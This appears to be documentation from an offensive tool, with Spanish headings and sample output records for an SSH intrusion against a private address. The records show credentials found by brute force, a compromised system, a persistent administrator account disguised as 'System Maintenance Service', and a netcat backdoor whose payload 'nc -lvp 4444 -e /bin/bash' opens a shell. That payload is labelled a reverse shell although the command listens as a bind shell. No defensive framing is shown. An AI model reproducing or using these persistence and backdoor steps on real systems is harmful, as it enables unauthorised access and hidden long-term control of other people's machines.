 ### Credencial Encontrada
```python
{
    'host': '192.168.1.100',
    'port': 22,
    'service': 'ssh',
    'username': 'admin',
    'password': 'admin',
    'method': 'brute_force',
    'timestamp': 1640995200.0
}
```

### Sistema Comprometido
```python
{
    'host': '192.168.1.100',
    'port': 22,
    'service': 'ssh',
    'username': 'admin',
    'password': 'admin',
    'access_level': 'user',
    'timestamp': 1640995200.0
}
```

### Usuario Persistente
```python
{
    'host': '192.168.1.100',
    'username': 'svc_192_168_1_100',
    'password': 'P@ssw0rd_100!',
    'groups': ['administrators', 'remote_desktop_users'],
    'description': 'System Maintenance Service',
    'created': True,
    'timestamp': 1640995200.0
}
```

### Backdoor
```python
{
    'host': '192.168.1.100',
    'type': 'netcat',
    'port': 4444,
    'method': 'reverse_shell',
    'payload': 'nc -lvp 4444 -e /bin/bash',
    'created': True,
    'timestamp': 1640995200.0
}
```
